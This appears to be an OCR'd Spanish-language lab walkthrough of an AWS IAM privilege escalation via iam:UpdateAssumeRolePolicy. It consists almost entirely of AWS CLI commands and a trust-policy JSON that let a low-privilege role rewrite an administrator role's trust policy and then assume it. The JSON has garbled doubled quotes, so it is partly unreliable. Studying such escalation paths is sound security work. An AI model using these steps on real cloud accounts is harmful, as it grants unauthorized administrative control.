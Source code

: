 # Actualización de una AssumeRolePolicy
## iam:UpdateAssumeRolePolicy  
aws iam list-attached-user-policies --user-name privesc14-UpdatingAssumeRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc14-UpdatingAssumeRolePolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc14-UpdatingAssumeRolePolicy-role --role-session-name privesc14  
aws sts get-caller-identity --profile privesc14  
Crear un archivo assume-role-policy.json  
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect"": "Allow",
      "Principal": {
        "AWS": "arn:aws:sts::651927172911:assumed-role/privesc14-UpdatingAssumeRolePolicy-role/privesc14"
      },
      "Action"": "sts:AssumeRole",
      "Condition": {}
    }
  ]
}
```

aws iam update-assume-role-policy --role-name Rol-Administrador --policy-document file://assume-role-policy.json --profile privesc14  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/Rol-Administrador --role-session-name privesc14admin --profile privesc14  

